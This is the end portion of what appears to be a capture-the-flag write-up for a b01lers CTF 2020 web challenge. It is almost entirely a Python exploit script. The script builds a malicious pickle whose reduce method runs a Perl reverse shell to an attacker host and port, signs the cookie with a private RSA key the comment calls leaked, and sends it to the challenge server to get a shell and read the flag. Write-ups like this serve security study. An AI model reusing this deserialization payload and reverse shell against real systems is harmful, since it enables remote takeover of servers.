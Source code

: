 ```python
        return (exec, ("__import__('subprocess').Popen(['perl', '-e', 'use Socket;$i=\"%s\";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'])" % (HOST, PORT),))

# Leaked signing RSA algorithm
def sign(msg):
    if type(msg) is not bytes:
        msg = bytes(msg, 'utf8')
    keyPair = RSA.construct((122929120347181180506630461162876206124588624246894159983930957362668455150316050033925361228333120570604695808166534050128069551994951866012400864449036793525176147906281580860150210721340627722872013368881325479371258844614688187593034753782177752358596565495566940343979199266441125486268112082163527793027, 65537, 51635782679667624816161506479122291839735385241628788060448957989505448336137988973540355929843726591511533462854760404030556214994476897684092607183504108409464544455089663435500260307179424851133578373222765508826806957647307627850137062790848710572525309996924372417099296184433521789646380579144711982601, 9501029443969091845314200516854049131202897408079558348265027433645537138436529678958686186818098288199208700604454521018557526124774944873478107311624843, 12938505355881421667086993319210059247524615565536125368076469169929690129440969655350679337213760041688434152508579599794889156578802099893924345843674089, 3286573208962127166795043977112753146960511781843430267174815026644571470787675370042644248296438692308614275464993081581475202509588447127488505764805156))
    signer = PKCS1_v1_5.new(keyPair)
    hsh = SHA384.new()
    hsh.update(msg)
    signature = signer.sign(hsh)
    return signature

# Craft the payload
encoded = pickle.dumps(User())
user = binascii.hexlify(encoded)
signature = binascii.hexlify(sign(user))

print("user cookie : ", user)
print("signature : ", signature)

cookies = {
    'user': user.decode(),
    'signature': signature.decode(),
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

# send the payload to the server and wait for connection on local machine
response = requests.get('http://chal.ctf.b01lers.com:3000/flag', headers=headers, cookies=cookies, verify=False)
print(response.content)
```
After the connection, simply read the flag.txt file
![bo1lers_ctf](/assets/img/Bo1lersCTF_2020/web_9.jpeg)
